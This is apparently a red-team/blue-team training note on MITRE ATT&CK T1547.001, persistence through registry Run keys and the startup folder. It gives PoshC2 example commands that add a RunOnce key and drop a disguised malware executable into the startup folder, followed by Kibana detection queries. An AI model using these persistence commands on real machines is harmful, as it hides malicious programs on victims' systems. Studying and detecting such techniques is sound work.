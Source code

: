 # [Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/)

## Folder Locations: 
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
C:\Users[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

## Exploit syntax:
* Reference [Modify registry](/Poshc2/instructions/Modify_registry.md) for syntax to add a key to run or runonce keys within victim registry

* Reference [Redundant access](/Poshc2/instructions/Reduntant_access.md) for syntax to add files to folder locations

* Example syntax for registry key:
    ```powershell
    sharpreg create "HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce" "TotallyLegitimateDiagnostics" "C:\Windows\TLD\regvrs32.exe" EXPAND_SZ
    ```

* Example syntax for startup folder:
    ```powershell
    upload-file 
    <press enter> 
    '/var/YourMalware.exe'
    <press enter> 'C:\ProgramData\\Microsoft\Windows\Start Menu\\Programs\StartUp\WinDiag.exe'
    <press enter>
    ```
## Detection Technique:
* Investigating registry Run and Startup folder

 * Kibana:
    * Example for registry key:
        * event.code: 13
        * event.action: "Registry value set (rule: RegistryEvent)"
        * registry.path:  "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce*"
    * Example for startup folder:
        * event.code: 11
        * event.action: File created (rule: FileCreate)
        * file.directory: "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup*"
        